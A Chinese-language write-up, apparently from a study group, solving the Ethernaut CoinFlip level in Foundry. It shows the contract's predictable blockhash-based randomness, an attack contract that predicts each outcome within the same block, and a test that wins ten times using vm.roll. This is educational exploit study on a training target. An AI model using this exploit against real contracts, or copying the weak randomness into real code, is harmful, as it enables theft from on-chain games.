

# Foundry 通关 Ethernaut（2）— CoinFlip 

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

猜对10次

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

flip

1. 给定一个固定值 **FACTOR，**
2. 获取前一个区块的哈希并转成 uint256
3. 记录这个哈希为 **lastHash** （防止在同一个区块多次猜奖，比如第一次猜true，第二次猜false）
4. 哈希除以固定值 **FACTOR**，（由于 solidity 没有小数，所以只有1or0，大于或小于），1 为 true，0 为 false
5. 用户输入 猜测的 false 或 true，猜对，对应的 consecutiveWins 加一

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

## 思路

在合约中，可以看到，哈希值是通过区块高度获取的，而在外部合约调用函数时，用户调用外部合约与合约调用合约两件事发生在同一个区块

那么，很显然，固定值是给出的，我们有了对应的区块高度，就可以直接获取 哈希/ 固定值 知道这个答案到底是 false 还是 true

## Attack

显然，我们需要计算对应的数据，所以，我们需要另写一个攻击脚本

```solidity
contract Attack is CoinFlip {

    CoinFlip public coin;
    constructor(address _coin){
        coin = CoinFlip(_coin);
    }
    function attack() external {
        // 计算对应值
        uint256 blockValue = uint256(blockhash(block.number - 1));
        if (lastHash == blockValue) {
            revert();
        }
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        // 调用 flip 函数，这里flip函数将和 attack 函数在同一个区块中执行
        coin.flip(side);
    }
}
```

## foundry 复现

### 1. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {CoinFlip,Attack} from "../src/CoinFlip.sol";

contract CoinFlipTest is Test {
    CoinFlip public coin;
    Attack public attackContract;

    function setUp() external {
        coin = new CoinFlip();
        console.log(address(coin));
        attackContract = new Attack(address(coin));
    }

    function test_attack() public {
        console.log("before",coin.consecutiveWins());

        for(uint256 i=0;i<10;i++){
            attackContract.attack();
            uint256 nextblock = block.number+1;
            // 设置区块高度
            vm.roll(nextblock);
        }
        console.log("after",coin.consecutiveWins());
    }
}
```

### 2. 要点

这里主要涉及：

**roll 作弊码：**

vm.roll 可以指定下一次调用的区块号

```solidity
function roll(uint256) external;
```

合约调用攻击函数 attack 后，lastVaule 已经记录了对应的值，防止我们在同一个区块中调用多次函数直接获胜，因此，我们需要使用 vm.roll 切换区块高度，这里为了方便直接使用当前区块的下一个区块，实际上，只要两次的区块高度不同即可

### 3. 测试

终端输入

```solidity
forge test --match-path test/CoinFlip.t.sol -vvvv
```



从打印结果来看，我们成功的获胜10次